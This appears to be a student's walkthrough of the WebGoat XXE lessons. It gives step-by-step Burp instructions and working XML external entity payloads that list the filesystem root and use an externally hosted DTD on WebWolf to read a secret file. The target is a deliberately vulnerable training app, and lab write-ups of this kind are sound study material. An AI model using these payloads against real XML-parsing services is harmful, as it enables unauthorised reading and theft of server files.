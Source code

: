 # XEE - xml external entities

Szymon ma małego

# Task 4

In this assignment you will add a comment to the photo, when submitting the form try to execute an XXE injection with the comments field. Try listing the root directory of the filesystem.

## Solution

1. Catch the response in burp. POST /WebGoat/xxe/simple HTTP/1.1
2. Change body of exml request to form down below

### On Windows

```
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///c:/">]>
<comment><text>&xxe;</text></comment>
```

### On Linux or macOS

```
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///">]>
<comment><text>&xxe;</text></comment>
```

# Task 7

1. Add comment and intercept POST request with burp.
2. Send to repeater.
3. Change application type header from application/json to applicatiom/xml.
4. Chnage body of request from submitted comment to :

```
<?xml version="1.0"?><!DOCTYPE comment [<!ENTITY xxe SYSTEM "file:///">]><comment><text>&xxe;</text></comment>
```

5. Send, done.

# Task 11

1. Go to webwolf and upload file attack.dtd with content

```
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY secret SYSTEM 'file:///home/webgoat/.webgoat-8.2.2//XXE/secret.txt'>
```

2. Content of above file could be different based on user ( file://... part... check exercise content to get path)
3. After upload get location of this file in webwolf

```
http://localhost:9090/files/{user_name}/{filename}

```

so

```
http://localhost:9090/files/admin123/attack.dtd

```

4. After that make commment catch POST request and change body to :

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xxe [

<!ENTITY % dtd SYSTEM "http://localhost:9090/files/admin123/attack.dtd" >
%dtd;]>
<comment>
<text>comment comment comment &secret;</text>
</comment>
```

5. should receive 200 response
6. Stop intercepting, then go to Webgoat
7. new comment should display comment comment comment .

```
comment comment comment WebGoat 8.0 rocks... (IdsWScAJJD)
```

then copy

```
WebGoat 8.0 rocks... (IdsWScAJJD)
```

add as comment and done
